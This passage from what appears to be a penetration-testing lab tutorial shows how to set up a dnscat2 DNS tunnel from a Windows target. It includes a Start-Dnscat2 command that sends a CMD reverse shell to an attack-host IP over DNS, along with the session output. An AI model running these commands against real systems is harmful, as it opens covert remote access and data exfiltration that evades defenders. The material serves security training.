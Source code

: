 After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [`dnscat2-powershell`](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

#### Cloning dnscat2-powershell to the Attack Host

```bash
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

#### Importing dnscat2.ps1

```bash
PS C:\htb> Import-Module .\dnscat2.ps1
```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```bash
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

#### Confirming Session Establishment

```bash
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

#### Listing dnscat2 Options

```bash
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```
